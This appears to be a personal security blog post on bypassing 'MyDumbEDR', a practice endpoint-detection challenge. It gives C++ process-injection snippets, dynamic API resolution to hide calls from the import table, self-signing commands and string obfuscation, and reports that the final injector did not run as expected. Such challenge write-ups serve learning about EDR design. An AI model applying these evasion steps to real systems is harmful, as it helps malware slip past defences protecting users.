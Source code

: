 ```yaml
---
layout: post
title: Bypass MyDumbEDR
subtitle: There's lots to learn!
tags: [CyberSec]
comments: true
---
```



I attempted to find a straightforward way to bypass this EDR, avoiding more complex techniques such as Syshwipers3 or DLL unhooking. In this exploration, I focused on simplicity to navigate through the challenges posed by the Endpoint Detection and Response (EDR) system. Indeed, my primary goal was to gain a comprehensive understanding of the EDR, exploring its functionality and potential for creating one.

## What about The Remote Injector Agent ?

This EDR rely primarily on *inline API hooking*.

So, when we are trying to execute any functions using high level WinAPI, functions from *ntdll.dll* are indirectly triggered. The EDR applies hooks over "some of them" to detect for malicious calls.

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131221528.png)
![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131221550.png)

The first hook we will try to bypass is the hook on  `ntAllocateVirtualMemory`, as you can see, the EDR will check if the program want to allocate in Read-Write-Execute (RWX).
![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131155650.png)

So to bypass this we just need to allocate the memory in *Read-Write* then when it's done we can change the protection to add the *Execute* and that's it. 

```c++
PVOID remoteBuffer = VirtualAllocEx_f(processHandle, NULL, shellcode_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

WriteProcessMemory_f(processHandle, remoteBuffer, shellcode, shellcode_len, NULL);

rv = VirtualProtect_f(shellcode, shellcode_len, PAGE_EXECUTE_READWRITE, &oldprotect);
```

## What about the Static Analyzer Agent ?

The static analyser will check for three things:

- [x] If the binary is signed
- [x] If the *OpenProcess*, *VirtualAllocEx*, *WriteProcessMemory* and *CreateRemoteThread* functions are listed in the **IAT** `(Import Address Table)`
- [x] If the string SeDebugPrivilege is present in the binary


#### 0x1 - Code signing

First of all, we are going to sign our binary. We need to know that the EDR will only check if the binary is signed or not, so we just need to sign our binary and it's will be fine.
![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131230908.png)

So, we are going to generate a self-signed certificate :
```
makecert -r -pe -n "CN=MyRootCA,O=TechSolutions,L=SanFrancisco,S=California,C=US" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv CA.pvk CA.cer
```

```
# 1.3.6.1.5.5.7.3.3 = Code Signing
# 1.3.6.1.4.1.311.10.3.24 = Protected process verification
# 1.3.6.1.4.1.311.10.3.6 = Windows System component verification


makecert -pe -n "CN=MyRootCA,O=TechSolutions,L=SanFrancisco,S=California,C=US" -a sha256 -cy end -sky signature -eku 1.3.6.1.5.5.7.3.3,1.3.6.1.4.1.311.10.3.24,1.3.6.1.4.1.311.10.3.6 -ic CA.cer -iv CA.pvk -sv SPC.pvk SPC.cer
```

We import the CA certificate :
```md
certutil -user -addstore Root CA.cer
```

Then we are going to convert our certificate in the pfx format :
```md
pvk2pfx -pvk SPC.pvk -spc SPC.cer -pfx SPC.pfx
```

And finally, we are going to sign our binary :
```md
signtool sign /v /fd SHA256 /f SPC.pfx ShellcodeInject.exe
```

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131231309-1.png)

#### 0x2 - Hiding from the Import Address Table (IAT)

The IAT is a lookup table used when the application is calling functions in a different module. When the file is executed, the Windows Loader will fill in the IAT with the appropriate function addresses.

So, to see which functions are in the IAT, we can use the `dumpbin.exe`

```md
dumpbin /imports C:\Windows\system32\notepad.exe
```

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131163110.png)


So to hide our functions in our binary we are going to obfuscate them.

```c++
typedef BOOL(WINAPI* pVirtualProtect)(
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD  flNewProtect,
    PDWORD lpflOldProtect
);

typedef HANDLE(WINAPI* pCreateRemoteThread)(
    HANDLE                 hProcess,
    LPSECURITY_ATTRIBUTES  lpThreadAttributes,
    SIZE_T                 dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID                 lpParameter,
    DWORD                  dwCreationFlags,
    LPDWORD                lpThreadId
);

typedef LPVOID(WINAPI* pVirtualAllocEx)(
    HANDLE hProcess,
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD  flAllocationType,
    DWORD  flProtect
);

typedef NTSTATUS(WINAPI* pNtOpenProcess)(
    PHANDLE            ProcessHandle,
    ACCESS_MASK        DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PCLIENT_ID         ClientId
    );

typedef BOOL(WINAPI* pWriteProcessMemory)(
    HANDLE  hProcess,
    LPVOID  lpBaseAddress,
    LPCVOID lpBuffer,
    SIZE_T  nSize,
    SIZE_T* lpNumberOfBytesWritten
);
```

```cpp
pVirtualAllocEx VirtualAllocEx_f = reinterpret_cast<pVirtualAllocEx>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocEx"));

pCreateRemoteThread CreateRemoteThread_f = reinterpret_cast<pCreateRemoteThread>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "CreateRemoteThread"));

pWriteProcessMemory WriteProcessMemory_f = reinterpret_cast<pWriteProcessMemory>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "WriteProcessMemory"));

pNtOpenProcess NtOpenProcess_f = reinterpret_cast<pNtOpenProcess>(
	GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenProcess"));

pVirtualProtect VirtualProtect_f = reinterpret_cast<pVirtualProtect>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualProtect"));
```


#### 0x3 - Token privileges ?

To open a handle to another process and obtain full access rights, we **must** enable the `SeDebugPrivilege` privilege.

if we request `PROCESS_ALL_ACCESS` when calling `OpenProcess`, the operation may require `SeDebugPrivilege`...

*Wait wait wait ...*

Before checking what exaclty the function do, I was thinking that the EDR will check if the binary has the `SeDebugPrivilege` enabled 😅. So, this function is a simple form of pattern matching and does not directly check if the binary itself has the `SeDebugPrivilege` enabled during runtime. The function is more about inspecting the static content of a binary file for a specific string, but it doesn't verify whether the binary, when executed, will have `SeDebugPrivilege` enabled.

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131172033.png)

So we just need to obfuscate strings with *SeDebugPrivilege* and that's it.

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131231827.png)


Upon attempting to execute the *ShellCode.exe* it seems that the Calculator application is not launching as expected. Feel free to contact me with any questions or comments. See you soon!

If you want the code : 
https://github.com/RFC6592/ChallengeDumbEDR

## Source 

* (Cocomelonc, 2024), https://cocomelonc.github.io/tutorial/2021/12/13/malware-injection-12.html
* (Medium, 2024), https://medium.com/@singhr780/how-to-do-code-signing-using-self-signed-certificate-c51fe6884532
* (Sektor7), Red Team Operator: Malware Development Essentials Course 